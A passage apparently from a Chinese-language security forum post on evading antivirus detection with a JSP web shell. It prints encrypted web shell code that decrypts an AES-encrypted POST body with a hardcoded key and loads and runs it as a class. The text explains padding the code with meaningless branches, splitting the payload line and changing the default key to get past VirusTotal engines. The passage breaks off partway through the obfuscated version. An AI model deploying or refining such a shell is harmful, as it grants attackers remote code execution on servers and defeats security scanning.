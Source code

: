 ```jsp
    if (request.getMethod().equals("POST")) {
        String k = "";
        if (1721747 &lt; 17177755){
            k = "e45e329feb5d925b";
        }
        int i = 0;
        do{
            session.putValue("u", k);
        }while (i &lt; 0);
        Cipher c = null;
        if (0 &lt; 188819091){
            c = Cipher.getInstance("AES");
        }
        if (17471741 == 17471741){
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
        }
        if (true){
            if ((74721741 &gt;&gt; 11) != 1 ){
                float f1 = 31.4145f;
            }
            new U(this.getClass().getClassLoader()).g(c.doFinal(Base64.getDecoder().decode(request.getReader().readLine()))).newInstance().equals(pageContext);
        }
    }
%&gt;
```

再次上传vt查看免杀效果，依旧还是有六个杀毒软件检测到恶意代码了。

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-25e9faf99e7b0aefacc9cf7622f8d250811bf618.png)

其实是因为这段代码我们并没有拆开和默认密码的原因，现在可以拆开这段代码，然后依次添加无意义的代码。然后把默认密码也可以改一下。

```jsp
new U(this.getClass().getClassLoader()).g(c.doFinal(Base64.getDecoder().decode(request.getReader().readLine()))).newInstance().equals(pageContext);
```

修改完毕后的查杀效果：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-9e32680d1ae0373c18456277b9418b84e2363a13.png)

代码：

```jsp
&lt;%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %&gt;
&lt;%@ page import="java.io.BufferedReader" %&gt;
&lt;%!
    class U extends ClassLoader {
        String AA = "AAAAAAA";
        String BB = "BBBBBBB";
        String CC = "CCCCCCC";
        U(ClassLoader c) {
            super(c);
            if (1929341894&gt; 12313){
                boolean b = 18288 % 10 == 2;
            }
        }
        public Class g(byte[] b) {
            if (2 &gt; 100){
                String aa = "AAAAAAA";
                int s = 1929341894 - 12313;
                aa = aa + s;
            }else {
                String cc = "ccccccc";
            }
```
